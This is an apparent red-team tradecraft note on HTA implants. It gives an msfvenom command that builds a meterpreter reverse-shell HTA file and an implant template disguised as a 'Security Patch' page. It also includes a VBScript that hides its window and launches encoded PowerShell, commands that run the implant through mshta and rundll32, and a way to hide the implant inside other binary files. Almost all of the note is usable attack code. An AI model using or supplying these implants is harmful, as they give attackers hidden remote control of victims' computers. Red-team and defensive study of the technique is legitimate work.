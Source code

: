 # HTA

## 01 - Generate via `msfvenom`

> [!INFO] Payload's Limitation
> It couldn't handle a command execution that exceeded 8192 characters.. Check for more details about [[Command Prompt|command prompt]] (`cmd.exe`).
 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f hta-psh -o implant.hta
```

## 02 - HTA Templates

HTA implant template.

```html
<html>
	<head>
		<title>
			Security Patch
		</title>
	</head>
	<body>
		<p>Installing security patch...</p>
	</body>
	<script language="VBScript">
	Function Execute()
		Set shell = CreateObject("WScript.Shell")
		shell.Run "<commands>", 0
	End Function

	Execute
	</script>
</html>
```

This is a de-obfuscated format of `hta-psh` in `msfvenom`. Refer to this [[03 - Malware Development/Techniques/Implant Execution/Command Execution/Execute Commands/Windows/WinAPI|section]] related to command execution using `powershell.exe`.

```html
<script language="VBScript">
  window.moveTo -4000, -4000
  Set Shell = CreateObject("WScript.Shell")
  Set Program = CreateObject("Scripting.FileSystemObject")
  For each path in Split(Shell.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If Program.FileExists(path + "\..\powershell.exe") Then
      Shell.Run "powershell -nop -w hidden -e <base64_encoded_powershell_script>", 0
      Exit For
    End If
  Next
  window.close()
</script>
```

## 03 - Execute Implant

### 3.1 - `mshta.exe`

To execute the implant.

```
C:\> mshta.exe %CD%\implant.hta

C:\> mshta.exe <drive_letter>:\absolute\path\to\implant.hta
```

### 3.2 - `rundll32.exe`

```
C:\> rundll32.exe url.dll,OpenURL "<drive_letter>:\absolute\path\to\implant.hta"

C:\> rundll32.exe url.dll,FileProtocolHandler "<drive_letter>:\absolute\path\to\implant.hta"

C:\> rundll32.exe url.dll,OpenURLA "<drive_letter>:\absolute\path\to\implant.hta"

C:\> rundll32.exe shdocvw.dll,OpenURL "<drive_letter>:\absolute\path\to\implant.hta"

C:\> rundll32.exe ieframe.dll,OpenURL "<drive_letter>:\absolute\path\to\implant.hta"
```

## 04 - Polyglot

> [!TIP]
> Feel free to experiment around binding any binary file format with `.hta` implant.

Bind the binary files together.

```
C:\> copy /y /b filename.extension+implant.hta hidden_implant.extension
```

It's also possible to do this in `wine`.

```
$ wine cmd.exe /y /c copy /b filename.extension+implant.hta hidden_implant.extension
```

Then execute it

```
C:\> mshta.exe %CD%\hidden_implant.extensions
```

---
## References

### Backlinks

- [[Rundll32]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Windows/Manual/Living off the Land]]

### LOLBAS

- [LOLBAS: Mshta](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)

### Red Team Notes

- [Red Team Notes: MSHTA](https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution)

### Sevagas

- [Sevagas: Hacking around HTA files](https://blog.sevagas.com/?Hacking-around-HTA-files)
